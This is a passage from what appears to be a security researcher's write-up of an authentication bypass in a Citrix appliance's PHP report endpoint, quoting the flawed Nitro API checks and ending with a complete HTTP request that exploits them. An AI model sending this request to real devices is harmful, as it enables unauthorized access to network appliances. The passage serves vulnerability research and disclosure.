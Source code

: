 ```php
    }
```

If it is, it creates an array by splitting the query string on the `&` character. Then, if the string `requestbody` is present (again using `strpos()`). So if we set one of our query parameters, like `sid`, to `loginchallengeresponse1requestbody` we would be able to hit these checks and influence the `$query_params` variable.

So what? I hear you think. Well, these query parameters are directly used in a call to the Nitro API. Remember the Nitro API? It's the one where we spent way too much time reverse engineering without any usable result:

```php
$nitro = new nitro();
$nitro_return_value = $nitro->v1($arg_list[0], $arg_list[1] . $query_params);
```

Remember how it would also return `0` if something went wrong? Like, when you'd say it was getting XML but it really wasn't? Can you feel where this is going? Our `$query_params` right now are basically garbage. So `$nitro_return_value` would then be `0`.

Luckily, there's a check to see if the command failed:
```php
// Process result
if(ns_empty($nitro_return_value) || $nitro_return_value === false)
{
    $this->set_error_code();
    $this->set_error_message($command);
}
```

Wait, what does that `ns_empty()` function do?
```php
function ns_empty(&$var)
{
    return empty($var) && ($var != "0");
}
```

Ha! That returns `FALSE` in our case. So we pass the check! Here's all of this in one HTTP request (the cookie value can be whatever, as long as it's a 32 character hex string):

```http
POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/pcidss/launch_report?type=main
Content-Type: application/xml
Content-Length: 44
DNT: 1
Connection: close
X-NITRO-USER: henk
Cookie: SESSID=05afba59ef8e0e35933f3bc266941337
X-NITRO-PASS: ingrid
Upgrade-Insecure-Requests: 1

<appfwprofile><login></login></appfwprofile>
```
